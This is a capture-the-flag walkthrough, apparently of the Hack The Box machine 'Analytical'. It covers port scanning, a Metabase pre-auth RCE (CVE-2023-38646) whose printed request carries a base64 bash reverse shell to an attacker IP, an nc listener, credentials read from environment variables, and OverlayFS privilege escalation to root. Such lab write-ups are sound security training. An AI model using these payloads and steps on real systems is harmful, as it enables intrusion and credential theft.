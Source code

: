
```
nmap -Pn -p- --min-rate 5000 $ip
Host is up (7.4s latency).
Not shown: 64963 filtered tcp ports (no-response), 570 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
on port 80 found
```
due@analytical.com
(+71) 9876543210
http://data.analytical.htb/ login Metabase
```
Now i will look for public cve for Metabase
I found 
`http://data.analytical.htb/api/session/properties` also found " CVE-2023-38646 - Metabase Pre-auth RCE"
exploit : https://github.com/kh4sh3i/CVE-2023-38646
exploit : https://github.com/securezeron/CVE-2023-38646
The second exploit give me :
```
┌──(root㉿1337)-[/home/…/HacktheBox/Season/exploits/CVE-2023-38646]
└─# python3 CVE-2023-38646-POC.py --ip data.analytical.htb
Failed to connect using HTTPS for data.analytical.htb. Trying next protocol...
None. Vulnerable Metabase Instance:-
             IP: data.analytical.htb
             Setup Token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f


```

Tried this but not work
```
└─# python3 CVE-2023-38646-Reverse-Shell.py --rhost http://data.analytical.htb --lhost 10.10.16.46 --lport 1337
[DEBUG] Original rhost: http://data.analytical.htb
[DEBUG] Preprocessed rhost: http://data.analytical.htb
[DEBUG] Input Arguments - rhost: http://data.analytical.htb, lhost: 10.10.16.46, lport: 1337
[DEBUG] Fetching setup token from http://data.analytical.htb/api/session/properties...
[DEBUG] Setup Token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[DEBUG] Version: v0.46.6
[DEBUG] Setup token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[DEBUG] Payload = YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE2LjQ2LzEzMzcgMD4mMQ==
[DEBUG] Sending request to http://data.analytical.htb/api/setup/validate with headers {'Content-Type': 'application/json'} and data {
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details": {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules": {},
        "details": {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE2LjQ2LzEzMzcgMD4mMQ==}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "test",
        "engine": "h2"
    }
}
[DEBUG] Response received: {"message":"Vector arg to map conj must be a pair"}
[DEBUG] POST to http://data.analytical.htb/api/setup/validate failed with status code: 400
```
But this work

```
└─# python3 CVE-2023-38646-Reverse-Shell.py --rhost data.analytical.htb --lhost 10.10.16.46 --lport 443
└─# nc -lvnp 443 
listening on [any] 443 ...
connect to [10.10.16.46] from (UNKNOWN) [10.10.11.233] 34686
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
a9c1c8064bd9:/$ 


```

## PrivEsc
found : metabase.db
Used Linpeas nothing. exploit suggester nothing 
using linenum i found
```
### ENVIRONMENTAL #######################################
[-] Environment information:
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=a9c1c8064bd9
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/tmp/Priv
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
TERM=xterm
USER=metabase
SHLVL=5
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
OLDPWD=/tmp
JAVA_VERSION=jdk-11.0.19+7
_=/usr/bin/env
```
I will try to login on ssh using these creds.
Connected on ssh using these creds. :)
```
metalytics@analytics:~$ cat user.txt
e32f7a59fd38a629760fa3b6f195d4b4
```

## Root PrivEsc

```
Files with capabilities (limited to 50):
/dev/shm/u/python3 cap_setuid=eip
/dev/shm/u/python3 cap_setuid=eip is writable
/dev/shm/l/python3 cap_setuid=eip
/dev/shm/l/python3 cap_setuid=eip is writable
/usr/bin/mtr-packet cap_net_raw=ep
/usr/bin/ping cap_net_raw=ep
```
```
╔══════════╣ Checking if containerd(ctr) is available
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/containerd-ctr-privilege-escalation
ctr was found in /usr/bin/ctr, you may be able to escalate privileges with it
ctr: failed to dial "/run/containerd/containerd.sock": connection error: desc = "transport: error while dialing: dial unix /run/containerd/containerd.sock: connect: permission denied"

╔══════════╣ Checking if runc is available
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/runc-privilege-escalation
runc was found in /usr/bin/runc, you may be able to escalate privileges with it
```
found an private key
`cat /var/lib/fwupd/pki/secret.key`

Then i use uname -a to find the version is vulnerable to OverlayFs
Link : https://github.com/briskets/CVE-2021-3493.git
On my local machine i used gcc to compile it and send it to victime machine
the chmod and run
```
bash-5.1# cat root.txt
0c5fff097346e62aa45c4174645be371
bash-5.1#
```
